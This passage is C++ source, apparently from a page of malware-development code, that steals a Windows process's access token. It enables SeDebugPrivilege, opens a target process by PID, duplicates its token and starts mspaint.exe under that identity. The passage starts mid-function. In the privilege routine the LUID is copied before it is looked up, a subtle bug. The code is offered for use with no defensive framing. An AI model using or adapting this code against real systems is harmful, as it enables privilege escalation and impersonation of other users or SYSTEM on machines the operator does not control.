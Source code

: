```cpp
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

// get access token
HANDLE getToken(DWORD pid) {
  HANDLE cToken = NULL;
  HANDLE ph = NULL;
  if (pid == 0) {
    ph = GetCurrentProcess();
  } else {
    ph = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, pid);
  }
  if (!ph) cToken = (HANDLE)NULL;
  printf(ph ? "successfully get process handle :)\n" : "failed to get process handle :(\n");
  BOOL res = OpenProcessToken(ph, MAXIMUM_ALLOWED, &cToken);
  if (!res) cToken = (HANDLE)NULL;
  printf((cToken != (HANDLE)NULL) ? "successfully get access token :)\n" : "failed to get access token :(\n");
  return cToken;
}

// create process
BOOL createProcess(HANDLE token, LPCWSTR app) {
  HANDLE dToken = NULL;
  STARTUPINFOW si;
  PROCESS_INFORMATION pi;
  BOOL res = TRUE;
  ZeroMemory(&si, sizeof(STARTUPINFOW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  si.cb = sizeof(STARTUPINFOW);

  res = DuplicateTokenEx(token, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &dToken);
  printf(res ? "successfully duplicate process token :)\n" : "failed to duplicate process token :(\n");
  res = CreateProcessWithTokenW(dToken, LOGON_WITH_PROFILE, app, NULL, 0, NULL, NULL, &si, &pi);
  printf(res ? "successfully create process :)\n" : "failed to create process :(\n");
  return res;
}

int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  HANDLE cToken = getToken(pid);
  if (!createProcess(cToken, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```
